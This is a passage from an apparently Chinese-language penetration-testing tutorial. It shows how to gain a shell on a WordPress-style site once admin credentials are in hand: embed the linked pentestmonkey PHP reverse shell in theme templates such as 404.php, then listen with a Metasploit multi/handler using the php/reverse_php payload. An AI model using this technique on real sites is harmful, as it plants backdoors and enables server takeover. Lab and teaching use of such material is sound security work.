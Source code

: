 得到用户名密码 may/123456  
得到管理员用户密码就可以使用后台 getshell 的常用手法 下文将演示常见方法

### 方法 1、修改模板

后台 -> 外观 -> 编辑  
通过在 index.php、404.php 等模板中嵌入恶意代码进行正向或反连 shell  
嵌入 php\_reverse\_shell.php 代码  
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
[![](assets/1706513536-aab1d1c5253bef60bcc98f9fc85a4975.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928239544-9197060c-d7fb-4b21-b6de-30e21ee3b009.png#averageHue=%23e2e2e2&clientId=uc39f9627-399e-4&from=paste&height=853&id=u09e9adf9&originHeight=1706&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=488325&status=done&style=none&taskId=u435abfea-c3db-406b-859c-143b26626fd&title=&width=1547)  
使用 metasploit 等工具建立监听

```plain
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
